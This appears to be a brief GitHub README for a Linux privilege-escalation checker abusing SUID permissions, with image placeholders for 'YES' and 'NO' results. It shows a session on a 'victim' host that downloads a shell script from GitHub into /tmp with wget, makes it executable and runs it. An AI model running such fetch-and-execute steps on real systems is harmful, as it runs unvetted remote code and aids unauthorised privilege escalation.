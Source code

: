 # Linux Privilege Escalation `Abusing SUID Permissions `


```cmd
user@victim:~$ cd /tmp
user@victim:/tmp$ wget "https://raw.githubusercontent.com/d4t4s3c/CPULimit/master/CPU_Fuck.sh"
user@victim:/tmp$ chmod +x ./CPU_Fuck.sh
user@victim:/tmp$ ./CPU_Fuck.sh
```

**Vulnerability Check**

`YES`

![](/01.png)

`NO`

![](/02.png)
